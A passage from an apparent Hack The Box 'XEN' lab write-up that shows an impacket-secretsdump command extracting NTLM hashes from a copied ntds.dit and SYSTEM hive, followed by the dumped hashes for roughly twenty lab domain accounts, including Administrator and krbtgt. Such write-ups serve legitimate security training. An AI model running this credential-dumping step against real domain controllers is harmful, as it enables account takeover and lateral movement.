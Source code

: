 ![image-20200912191518555](xen.assets/image-20200912191518555.png)



- now we just need to download both the files
- then we can perform a hashdump and get all the hashes



## impacket-secretsdump

```
impacket-secretsdump -just-dc-ntlm -ntds ndts.dit -system system LOCAL -outputfile hashdump-XEN
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:822601ccd7155f47cd955b94af1558be:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:5e507509602e1b651759527b87b6c347:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3791ca8d70c9e1d2d2c7c5b5c7c253e8:::
CITRIX$:1103:aad3b435b51404eeaad3b435b51404ee:fd981d0c915932bb3ddf38b415c49121:::
htb.local\alarsson:1104:aad3b435b51404eeaad3b435b51404ee:92a44f1aa6259c55f9f514fabae5cc3f:::
htb.local\jmendes:1106:aad3b435b51404eeaad3b435b51404ee:10d0c05f7d958955f0eaf1479b5124a0:::
htb.local\pmorgan:1107:aad3b435b51404eeaad3b435b51404ee:8618ba932416a7404a854b250bf28577:::
htb.local\awardel:1108:aad3b435b51404eeaad3b435b51404ee:270e4d446437f4383b092b42a9f88f0a:::
VDESKTOP3$:1109:aad3b435b51404eeaad3b435b51404ee:e582f9b9d77dae6357bb574620b721ce:::
VDESKTOP2$:1110:aad3b435b51404eeaad3b435b51404ee:f583f9b5fc860b9ae21e482caaad0553:::
VDESKTOP1$:1111:aad3b435b51404eeaad3b435b51404ee:f96d793a4b9d2b8517123ad8d1e26b03:::
htb.local\xenserver-svc:1112:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\print-svc:1113:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\mssql-svc:1115:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\mturner:1117:aad3b435b51404eeaad3b435b51404ee:330e8573172989af7b756c4b831d7788:::
htb.local\app-svc:1118:aad3b435b51404eeaad3b435b51404ee:feabcb5e62391216ff8ba2bbf487298b:::
htb.local\rprakash:1119:aad3b435b51404eeaad3b435b51404ee:64b49f377000aa5e512625de928e6a05:::
LAPTOP1$:1120:aad3b435b51404eeaad3b435b51404ee:fafcb53e7c9e126632dee80a69a6bc40:::
```